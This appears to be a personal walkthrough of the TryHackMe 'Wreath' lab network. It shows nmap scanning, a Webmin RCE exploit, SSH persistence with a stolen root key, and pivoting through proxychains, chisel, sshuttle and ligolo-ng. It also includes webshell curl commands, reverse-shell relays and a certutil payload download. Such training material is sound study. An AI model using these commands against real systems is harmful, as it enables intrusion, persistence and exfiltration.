

# 12 - Wreath

Room Link --> [https://tryhackme.com/room/wreath](https://tryhackme.com/room/wreath)

**Wreath** is designed as a learning resource for beginners with a primary focus on:

* Pivoting
* Working with the Empire C2 (Command and Control) framework
* Simple Anti-Virus evasion techniques

The following topics will also be covered, albeit more briefly:

* Code Analysis (Python and PHP)
* Locating and modifying public exploits
* Simple webapp enumeration and exploitation
* Git Repository Analysis
* Simple Windows Post-Exploitation techniques
* CLI Firewall Administration (CentOS and Windows)
* Cross-Compilation techniques
* Coding wrapper programs
* Simple exfiltration techniques
* Formatting a pentest report

## <mark style="color:red;">Key Notes:</mark>

* There are three machines on the network
* There is at least one public facing webserver
* There is a self-hosted git server somewhere on the network
* The git server is internal, so Thomas may have pushed sensitive information into it
* There is a PC running on the network that has antivirus installed, meaning we can hazard a guess that this is likely to be Windows
* By the sounds of it this is likely to be the server variant of Windows, which might work in our favour.
* The (assumed) Windows PC cannot be accessed directly from the webserver

## <mark style="color:red;">Enumeration</mark>

### <mark style="color:green;">WebServer Enumeration</mark>

We perform an initial scan using nmap:


```bash
sudo nmap 10.200.87.200 -O -p1-15000 -Pn -n -sV -T4 -vv -oN initial_scan

# results
PORT      STATE  SERVICE    REASON         VERSION
22/tcp    open   ssh        syn-ack ttl 63 OpenSSH 8.0 (protocol 2.0)
80/tcp    open   http       syn-ack ttl 63 Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
443/tcp   open   ssl/http   syn-ack ttl 63 Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
9090/tcp  closed zeus-admin reset ttl 63
10000/tcp open   http       syn-ack ttl 63 MiniServ 1.890 (Webmin httpd)
[...redacted...]
```


Port 10000 seems interesting.

<figure><figcaption><p><a href="https://thomaswreath.thm:10000/">https://thomaswreath.thm:10000/</a></p></figcaption></figure>

We looked it up in google **"MiniServ 1.890 (Webmin httpd)"** and found it's vulnerable to RCE with CVE details --> <mark style="color:orange;">**CVE-2019-15107**</mark>

<figure><figcaption><p>Vuln WebPage</p></figcaption></figure>

## <mark style="color:red;">Exploitation</mark>

Info on WebMin RCE --> [here](https://webmin.com/security/#remote-command-execution-cve-2019-15231)

We Exploited this Vulnerability using this Exploit --> [here](https://github.com/MuirlandOracle/CVE-2019-15107)

We obtained a Psuedoshell as the "root" user.

```bash
./CVE-2019-15107.py 10.200.87.200
```

<figure><figcaption><p>pwned</p></figcaption></figure>

## <mark style="color:red;">Persistence</mark>

We can copy the "id\_rsa" file located in the `/root/.ssh/id_rsa` dir to our kali machine for maintaining persistence.

```bash
ssh root@10.200.87.200 -i id_rsa
```

<figure><figcaption><p>SSH connection</p></figcaption></figure>

## <mark style="color:red;">Pivoting</mark>

There are two main methods encompassed in this area of pentesting:

* Tunnelling/Proxying: Creating a proxy type connection through a compromised machine in order to route all desired traffic into the targeted network. This could potentially also be _tunnelled_ inside another protocol (e.g. SSH tunnelling), which can be useful for evading a basic Intrusion Detection System (IDS) or firewall.
* Port Forwarding: Creating a connection between a local port and a single port on a target, via a compromised host.

**A proxy** is good if we want to redirect lots of different kinds of traffic into our target network -- for example, with an nmap scan, or to access multiple ports on multiple different machines.

**Port Forwarding** tends to be faster and more reliable, but only allows us to access a single port (or a small range) on a target device. Which style of pivoting is more suitable will depend entirely on the layout of the network.

### <mark style="color:green;">Pivot Enumeration</mark>

There are five possible ways to enumerate a network through a compromised host:

1. Using material found on the machine. The hosts file or ARP cache, for example.
2. Using pre-installed tools (nmap, bash, powershell).
3. Using statically compiled tools (binary files like .exe, nmap), etc.
4. Using scripting techniques.
5. Using local tools through a proxy (last resort because very SLOW).

<details>

<summary>Basic Pivot Enumeration Checklist</summary>

* `arp -a` - \[linux/windows].
* `cat /etc/hosts` - \[linux].
* `C:\Windows\System32\drivers\etc\hosts` -DNS \[windows].
* `/etc/resolv.conf` - DNS \[linux].
* `ipconfig /all` \[windows] and `nmcli dev show` \[linux].

</details>

Here is a link to some static Binary files --> [here](https://github.com/andrew-d/static-binaries)

Compiled Port Scanner for windows in C# --> [here](https://github.com/MuirlandOracle/C-Sharp-Port-Scan)

Compiled Port Scanner for windows in C++ --> [here](https://github.com/MuirlandOracle/CPP-Port-Scanner)


It's worth noting as well that you may encounter hosts which have firewalls blocking ICMP pings (Windows boxes frequently do this, for example). This is likely to be less of a problem when pivoting, however, as these firewalls (by default) often only apply to external traffic, meaning that anything sent through a compromised host on the network should be safe. It's worth keeping in mind, however.

If you suspect that a host is active but is blocking ICMP ping requests, you could also check some common ports using a tool like netcat.


Ping Sweep in Bash to discover other local networks:


```bash
# bash ping sweep.
for i in {1..254}; do (ping -c 1 10.200.87.${i} | grep "bytes from" &); done
```


Port scanning in bash can be done (ideally) entirely natively:


```bash
# Bear in mind that this will take a very long time, however!
for i in {1..65535}; do (echo > /dev/tcp/10.200.87.200/$i) >/dev/null 2>&1 && echo $i is open; done

# or for selected ports.
for i in {21 80 111 135 139 445 443 8080 3389}; do (echo > /dev/tcp/10.200.87.200/$i) >/dev/null 2>&1 && echo $i is open; done
```


I used a static nmap binary file and scan the internal networks from the victim 10.200.87.200 and found 3 other hosts.

<figure><figcaption><p>pivot enumeration.</p></figcaption></figure>

### <mark style="color:red;">Proxychains & Foxyproxy</mark>

When creating a proxy we open up a port on our own attacking machine which is linked to the compromised server, giving us access to the target network.

**Proxychains** is a command line tool which is activated by prepending the command `proxychains` to other commands. For example, to proxy netcat  through a proxy, you could use the command:\
`proxychains nc 172.16.0.10 23`

Notice that a proxy port was not specified in the above command. This is because proxychains reads its options from a config file. The master config file is located at `/etc/proxychains.conf`. This is where proxychains will look by default; however, it's actually the last location where proxychains will look. The locations (in order) are:

1. The current directory (i.e. `./proxychains.conf`)
2. `~/.proxychains/proxychains.conf`
3. `/etc/proxychains.conf`

This makes it extremely easy to configure proxychains for a specific assignment, without altering the master file. Simply execute: `cp /etc/proxychains.conf .`, then make any changes to the config file in a copy stored in your current directory. If you're likely to move directories a lot then you could instead place it in a `.proxychains` directory under your home directory, achieving the same results. If you happen to lose or destroy the original master copy of the proxychains config, a replacement can be downloaded from [here](https://raw.githubusercontent.com/haad/proxychains/master/src/proxychains.conf).


There is one other line in the Proxychains configuration that is worth paying attention to, specifically related to the Proxy DNS settings:\


If performing an Nmap scan through proxychains, this option can cause the scan to hang and ultimately crash. Comment out the `proxy_dns` line using a hashtag (`#`) at the start of the line before performing a scan through the proxy!\




Other things to note when scanning through proxychains:

* You can only use TCP scans -- so no UDP or SYN scans. ICMP Echo packets (Ping requests) will also not work through the proxy, so use the  `-Pn`  switch to prevent Nmap from trying it.
* It will be _extremely_ slow. Try to only use Nmap through a proxy when using the NSE (i.e. use a static binary to see where the open ports/hosts are before proxying a local copy of nmap to use the scripts library).


#### <mark style="color:green;">Foxyproxy</mark>

FoxyProxy is a browser extension which is available for [Firefox](https://addons.mozilla.org/en-GB/firefox/addon/foxyproxy-basic/) and [Chrome](https://chrome.google.com/webstore/detail/foxyproxy-basic/dookpfaalaaappcdneeahomimbllocnb). There are two versions of FoxyProxy available: Basic and Standard. Basic works perfectly for our purposes.

<figure><figcaption><p>foxyproxy</p></figcaption></figure>

Once activated, all of your browser traffic will be redirected through the chosen port (so make sure the proxy is active!). Be aware that if the target network doesn't have internet access (like all TryHackMe boxes) then you will not be able to access the outside internet when the proxy is activated. Even in a real engagement, routing your general internet searches through a client's network is unwise anyway, so turning the proxy off (or using the routing features in FoxyProxy standard) for everything other than interaction with the target network is advised.

With the proxy activated, you can simply navigate to the target domain or IP in your browser and the proxy will take care of the rest!

### <mark style="color:red;">1 - SSH Tunneling & Port Forwarding</mark>

The first tool we'll be looking at is none other than the bog-standard SSH client with an OpenSSH server. Using these simple tools, it's possible to create both forward and reverse connections to make SSH "tunnels", allowing us to forward ports, and/or create proxies.

#### <mark style="color:green;">Forward Connections</mark>

There are two ways to create a forward SSH tunnel using the SSH client --> **port forwarding**, and **creating a proxy**.

* **Port forwarding** is accomplished with the `-L` switch, which creates a link to a Local port. For example, if we had SSH access to `10.200.87.200` and there's a webserver running on `10.200.87.150`, we could use this command to create a link to the server on  `10.200.87.150`:\
  `ssh -L 9051:10.200.87.150:80 root@10.200.87.200 -fN`\
  &#x20;The `-fN` combined switch does two things: `-f` backgrounds the shell immediately so that we have our own terminal back. `-N` tells SSH that it doesn't need to execute any commands -- only set up the connection.

<figure><figcaption><p>Access webpage hosted on port 80 10.200.87.150, from our kali localhost:9051</p></figcaption></figure>

* **Proxies (forward proxy)** are made using the `-D` switch, for example: `-D 1337`. This will open up port 1337 on your attacking box as a proxy to send data through into the protected network. This is useful when combined with a tool such as proxychains. An example of this command would be:\
  `ssh -D 1337 root@10.200.87.150 -fN`

<figure><figcaption><p>Proxy connection to 10.200.87.150</p></figcaption></figure>

Now we can even scan entire 65535 port:


```bash
proxychains4 nmap -sV -p- 10.200.87.150 -T4 --min-rate 20000 --open -vv
```


### <mark style="color:red;">2 - Socat</mark>

#### Reverse Shell Relay

The relay connects back to a listener started using an alias to a standard netcat listener:  `rlwrap nc -lvnp 4444`.

In this way we can set up a relay to send reverse shells through a compromised system, back to our own attacking machine. This technique can also be chained quite easily; however, in many cases it may be easier to just upload a static copy of netcat to receive your reverse shell directly on the compromised server.

<figure><figcaption><p>Socat Reverse Shell Relay</p></figcaption></figure>

### <mark style="color:red;">3 - Chisel</mark>

[Chisel](https://github.com/jpillora/chisel) is an awesome tool which can be used to quickly and easily set up a tunnelled proxy or port forward through a compromised system, regardless of whether you have SSH access or not.

Download the Binaries --> [here](https://github.com/jpillora/chisel/releases)

Video Tutorial --> [here](https://www.youtube.com/watch?v=dIqoULXmhXg\&t=124s)

#### _Reverse SOCKS Proxy_

This connects _back_ from a compromised server to a listener waiting on our attacking machine.

`./chisel server -p 1081 --reverse` - on kali.

`./chisel server client $kaliIP:1081 R:socks` - on victim.

<figure><figcaption><p>Reverse Socks Proxy</p></figcaption></figure>

<figure><figcaption><p>Accessing 10.200.87.150:80</p></figcaption></figure>

My bad: its actually 127.0.0.1:8080 to access the webserver.

<figure><figcaption></figcaption></figure>

#### Forward Socks Proxy

Forward proxies are rarer than reverse proxies for the same reason as reverse shells are more common than bind shells; generally speaking, egress firewalls (handling outbound traffic) are less stringent than ingress firewalls (which handle inbound connections). That said, it's still well worth learning how to set up a forward proxy with chisel.

In many ways the syntax for this is simply reversed from a reverse proxy.

First, on the compromised host we would use:\
`./chisel server -p LISTEN_PORT --socks5`

On our own attacking box we would then use:\
`./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`

#### _Local Port Forward_

As with SSH, a local port forward is where we connect from our own attacking machine to a chisel server listening on a compromised target.

On the compromised target we set up a chisel server:\
`./chisel server -p LISTEN_PORT`

We now connect to this from our attacking machine like so:\
`./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`

For example, to connect to 172.16.0.5:8000 (the compromised host running a chisel server), forwarding our local port 2222 to 172.16.0.10:22 (our intended target), we could use:\
`./chisel client 172.16.0.5:8000 2222:172.16.0.10:22`

### <mark style="color:red;">4 - SSHuttle</mark>

`sshuttle -r username@address -N` - If this has worked, you should see the following line:\
`c : Connected to server.`


```bash
# We use the "--ssh -i" to specify ssh key, "-N" to specify entire subnet automatically, "-x" to exclude the actual ssh host we are connecting to.
sshuttle -r root@10.200.87.200 --ssh-cmd "ssh -i id_rsa" -N -x 10.200.87.200
```


And we are able to access the "10.200.87.150" web server easily as shown in the image below.

<figure><figcaption></figcaption></figure>

### <mark style="color:red;">5 - Ligolo-ng</mark>

Download from --> [here](https://github.com/nicocha30/ligolo-ng)

* **Ligolo Proxy:** is run on the attacker machine.
* **Ligolo Agent:** is run on the pivot/jump host.

#### <mark style="color:orange;">Setting up Ligolo on Kali</mark>

`sudo ip tuntap add user dking mode tun ligolo` - we use our username.

`sudo ip link set ligolo up` - we turn on the interface.

<figure><figcaption></figcaption></figure>

`./proxy -selfcert` - and it starts the proxy server listening on port 11601.

#### <mark style="color:orange;">Adding an Agent</mark>

On the Victim or Pivot Machine:

`./agent -connect 10.50.88.51:11601 -ignore-cert` - connect to the kali ip and port, then since we used "selfcert" for the proxy, we just "ignore-cert" here.

And the connection should be established.

<figure><figcaption></figcaption></figure>

In the Proxy menu, we can start our interaction:


```bash
ligolo-ng >> help # help menu.
ligolo-ng >> session # view sessions.
ligolo-ng >> 1 # select the session number.
[Agent : root@prod-serv] >> ifconfig # for linux obvoiusly, ipconfig for windows.
[Agent : root@prod-serv] >> 
```


#### <mark style="color:orange;">For Pivoting:</mark>

We just added an Agent to the Ligolo Proxy server, now let's add our pivot.

`sudo ip route add 10.200.87.150 dev ligolo` - adding a route to the internal network we want to reach, we could also add a subnet if we like, ie; `sudo ip route add 192.168.0.1/24` .

`ip route list` - to view the routing table.

Back in our proxy tab:


```bash
[Agent : root@prod-serv] >> session # confirm we are in the right session.
[Agent : root@prod-serv] >> 1 # enter correct session number.
[Agent : root@prod-serv] >> start # starts the pivot tunnel, we should be able to access the networks added in the routing table.
```


Now we can use any tool: nmap, crackmapexec, evil-winrm, enum4linux etc, to directly communicate with the internal networks.

One way to verify our Pivot is working is to use "crackmapexec" if SMB or WINRM port is open and check:

`crackmapexec smb 192.168.0.1/24` - if its able to resolve the  names of the live host in the Subnet, then it's working :)

#### <mark style="color:orange;">How to use the Ligolo Listeners to receive a reverse shell connection</mark>

After gaining access to internal networks, in this case "10.200.87.150".  Lets say we found an exploit for this machine, like an RCE or something, and we want to send the reverse shell straight to our kali box, we need to add a Listener to our Ligolo Agent.


```bash
# we make sure we are in the Agent Session we want to setup a listener for (in this case, our Pivot/Jump machine).
# with this cmd, any connection (or reverse shell) from any network (internal networks) "0.0.0.0" on port "1234" should be redirected to our kali localhost on port "4444".
[Agent : root@prod-serv] >> listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444

# so we set a "nc" listener on kali port "4444" to catch the reverse shell, once we have our RCE.
```


<figure><figcaption></figcaption></figure>

Our RCE:

Let saythis is our RCE, so normally we'd send the reverse shell to our kali ip, while our "nc" listener catches it. But here, if we do that it won't work, so  we will use the ip of our Jump/Pivot agent instead because we already setup a Ligolo Listener (0.0.0.0:1234) on the JUmp agent. This will redirect the reverse shell to our kali box on port "4444". We use the ip of our Jump Host instead of our Kali ip address.

<figure><figcaption><p>RCE</p></figcaption></figure>

<figure><figcaption></figcaption></figure>

And we get a shell.

#### <mark style="color:orange;">How to use Ligolo Listeners to transfer files to and from machines.</mark>

So after gaining our Reverse shell to the internal network using Ligolo Listener, we are low level user, and we want to upload say WinPEAS, LinPEAS, PowerUP etc, to get priv esc vector for priv esc or maybe we want to exfilterate data/files from the internal network to our kali machine.

We will have to setup another Listener to do File Transfers.


```bash
# we are setting a listener to on our Jump host (0.0.0.0:1235) to redirect back to our kali on port "80" because we are going to be running our python server on port 80 too.
[Agent : root@prod-serv] >> listener_add --addr 0.0.0.0:1235 --to 127.0.0.1:80
```


<figure><figcaption></figcaption></figure>

<figure><figcaption><p>we now have a dedicated listener for file transfers</p></figcaption></figure>

Our server: `python3 -m http.server 80` .

`certutil -urlcache -f http://JumpHost_IP:1235/winPEAS.exe` - so we use the ip addr of our Jump host agent here since we have a listener on "0.0.0.0:1235" that will redirect the connection to our kali machine port "80" which our server is running on.

<figure><figcaption><p>successfully transferred file.</p></figcaption></figure>

## Git-Server Pivoting

So it’s an error page. There are 3 endpoints `/registration/login` `/gitstack` and `/rest`

<figure><figcaption><p>http://10.200.87.150/gitstack</p></figcaption></figure>

<figure><figcaption><p>searching google for available exploit</p></figcaption></figure>

We got one from exploit-db --> [https://www.exploit-db.com/exploits/43777](https://www.exploit-db.com/exploits/43777)

We edited the "ip address" and "cmd" using nano.

<figure><figcaption><p>modifying exploit</p></figcaption></figure>

`python2 43777.py` - running exploit.

<figure><figcaption><p>we got "nt authority"</p></figcaption></figure>

We can also check the uploaded "exploit.php" using curl

`curl -X POST http://10.200.87.150/web/exploit.php -d "a=whoami"` -

<figure><figcaption></figcaption></figure>

From here we want to obtain a full reverse shell. We have two options for this:

1. We could change the command in the exploit and re-run the code
2. We could use our knowledge of the script to leverage the same webshell to execute more commands for us, without performing the full exploit twice

Option number two is a lot quieter than option number 1, so let's use that.

Before we go for a reverse shell, we need to establish whether or not this target is allowed to connect to the outside world.

<figure><figcaption><p>we can't ping outside</p></figcaption></figure>

But we see we are able to ping our Jump host.

<figure><figcaption><p>we can ping 10.200.87.200</p></figcaption></figure>

Ok, since we can ping 10.200.87.200, and we also have a stable shell on 10.200.87.200, there are 2 options to get a reverse shell for 10.200.87.150.

* we could upload a static copy of [netcat](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86\_64/ncat) and just catch the shell here.
* We could set up a relay on .200 to forward a shell back to a listener using "socat" or "ligolo-ng".


